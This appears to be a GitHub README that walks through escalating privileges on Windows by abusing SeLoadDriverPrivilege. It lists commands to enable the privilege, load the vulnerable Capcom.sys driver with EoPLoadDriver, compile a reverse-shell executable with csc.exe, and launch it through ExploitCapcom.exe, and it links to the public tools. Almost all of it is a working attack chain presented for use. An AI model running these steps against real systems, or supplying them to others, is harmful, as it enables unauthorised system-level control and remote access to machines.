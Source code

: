 # SeLoadDriverPriv
Some stuff that can be handy to abuse SeLoadDriverPriv

## Get Priv
In order to get the privilege, we need to spawn a high integrity process
..* Option 1: Load PowerShell or cmd.exe as Administrator (no Administrator group membership required!) - Lesson learned from Wh04m1
..* Option 2: Use elevate.exe to spawn cmd (https://github.com/PaoJiao/elevate)
```
elevate.exe cmd.exe
```

## Enable Privilege
```
. .\Enable-SeLoadDriverPrivilege.ps1
Enable-Privilege SeLoadDriverPrivilege
```

## Compile EoPLoadDriver
```
.\EoPLoadDriver.exe System\CurrentControlSet\Capcom C:\pentest\SeLoadDriverPrivilege\Capcom.sys
```

## Generate Reverse Shell
```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /t:exe /out:C:\pentest\SeLoadDriverPrivilege\rev.exe C:\pentest\SeLoadDriverPrivilege\rev.cs
```

## Exploit vulnerable driver
```
.\ExploitCapcom.exe C:\pentest\SeLoadDriverPrivilege\rev.exe
```

References

..* [https://github.com/PaoJiao/elevate](https://github.com/PaoJiao/elevate)
..* [https://github.com/TarlogicSecurity/EoPLoadDriver/](https://github.com/TarlogicSecurity/EoPLoadDriver)
..* [https://github.com/tandasat/ExploitCapcom](https://github.com/tandasat/ExploitCapcom)
..* [https://github.com/FuzzySecurity/Capcom-Rootkit](https://github.com/FuzzySecurity/Capcom-Rootkit)


